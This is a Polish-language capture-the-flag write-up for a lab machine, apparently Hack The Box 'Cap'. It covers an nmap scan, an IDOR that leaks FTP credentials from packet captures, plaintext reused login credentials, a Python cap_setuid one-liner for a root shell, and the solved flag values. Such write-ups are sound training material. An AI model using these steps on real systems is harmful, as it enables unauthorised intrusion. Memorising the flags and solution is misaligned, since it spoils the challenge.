





# Nmap

``` zsh
$ nmap -Pn -p- --min-rate 2000 -sC -sV -oN nmap_scan.txt 10.10.10.245
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-07 14:10 CEST
Nmap scan report for 10.10.10.245
Host is up (0.028s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.20 seconds
```

# Enumeracja serwisów

## Tcp/80 - HTTP

Na porcie 80 znajduje się aplikacja internetowa pokazująca wynik polecenia `ip a`, `netstat`, oraz możliwe do pobrania dane na temat ruchu sieciowego w formacie pcap.



Widok okna z plikami PCAP zawiera w URL id, które można edytować w celu dostania się do innego zestawu danych.



Wpisując na końcu URL numer 0, można zdobyć logi z transmisji FTP gdzie znajdują się dane logowania.


## Tcp/21 - FTP

Znając nazwę użytkownika i hasło można się zalogować do ftp na hoście.

## Tcp/22 - SSH

Dane do konta ftp są takie same jak do konta SSH (nathan:Buck3tH4TF0RM3!). W ten sposób otrzymujemy dostęp do atakowanej maszyny. W folderze home użytkownika "nathan" znajduje się flaga user.txt

# Exploit 

# SSH jako nathan



# Post-Exploit Enumeration

## Środowisko operacyjne

### Os & Kernel

```
NAME="Ubuntu"
VERSION="20.04.2 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.2 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal

Linux cap 5.4.0-80-generic #90-Ubuntu SMP Fri Jul 9 22:49:44 UTC 2021 x86_64 x86_
64 x86_64 GNU/Linux 
```

### Current User

```
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)

nathan@cap:~$ su -l
Password: 
su: Authentication failure
```
### Local Users

```
nathan:x:1001:1001::/home/nathan:/bin/bash
```

### Local groups

```
nathan:x:1001:
```

## Network configuration

```
eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:94:95:1e brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.245/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:fe94:951e/64 scope link 
       valid_lft forever preferred_lft forever
```

# Privilege Escalation (Root)

Wynik polecenia `getcap -r / 2>/dev/null`:

```
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

Python posiada `cap_setuid`, co pozwala na wykonywanie procesu jako inny uzytkownik.
Można wywołać powłokę z Pythona i ustawić suid na 0, czyli root

``` zsh
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```



Za pomocą polecenia `/bin/bash` można wywołać powłokę bash.
W folderze `/root` znajduje się ostatnia flaga.
# Flagi

user.txt - 1edbf9afe6ac06e053a85d524d879217
root.txt - d0eb4042e3063eab9b553e76afa9f2ec